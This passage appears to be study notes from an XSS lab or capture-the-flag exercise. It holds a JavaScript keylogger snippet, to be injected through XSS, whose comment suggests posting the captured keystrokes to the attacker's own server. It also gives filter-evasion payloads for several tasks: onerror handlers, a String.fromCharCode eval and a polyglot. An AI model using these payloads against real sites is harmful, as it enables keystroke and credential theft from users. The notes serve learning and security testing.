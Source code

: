 ## Reference

Detailed Port Scanner : https://github.com/aabeling/portscan

# Key-Logger with XSS

Javascript can be used for many things, including creating an event to listen for keypresses.

```
<script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script> 
```

# Filter Evasion

# Reports

1. https://hackerone.com/reports/415484 => XSS found in Shopify
2. https://hackerone.com/reports/409850 => $7,500 for XSS found in Steam chat
3. https://hackerone.com/reports/449351 => $2,500 for XSS in HackerOne
4. https://hackerone.com/reports/283825 => XSS found in Instagram

# Task 1: Bypass the filter that removes any script tags.

*Payload*: `<img src=x onerror=alert("Hello")>`

# Task 2: The word alert is filtered, bypass it. 

*Payload*: `<img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,39,72,101,108,108,111,39,41))";>`

Didn't work.

*Final Payload*: `0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"`

# Task 3: The word hello is filtered, bypass it. 

*Payload* : `<object onerror=alert('Hello')>`

# Task 4: 
Filtered in challenge 4 is as follows:
